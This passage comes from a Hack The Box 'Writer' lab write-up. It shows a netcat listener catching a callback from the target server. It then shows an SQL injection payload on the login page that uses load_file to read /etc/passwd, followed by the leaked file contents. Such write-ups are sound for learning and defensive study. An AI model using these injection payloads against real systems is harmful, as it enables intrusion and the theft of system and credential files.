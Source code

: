 Thanks for reading!
-----------------------------12417370376638841362770592069--
```


_Note the “image_url” parameter highlighted in red` \
`_


```
Response


```
┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]
└──╼ $sudo nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.15.80] from (UNKNOWN) [10.10.11.101] 38018
GET /image.jpg HTTP/1.1
Accept-Encoding: identity
Host: 10.10.15.80
User-Agent: Python-urllib/3.8
Connection: close
```


Judging from the user-agent, it was found that the server is running python. After failing to obtain code executions despite trying many different upload attacks, it follows that the source code of the upload feature must be leaked to determine how it works. 


### Leveraging SQLi to Read Local Files

This is possible via the `load_file` SQL function. Going back to the login page, this function can be used in conjunction with a union select statement to leak files:

 


```
Payload


```
uname='union select 1,load_file('/etc/passwd'),3,4,5,6-- -&password=a
```



```
Response


```
Welcome root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
```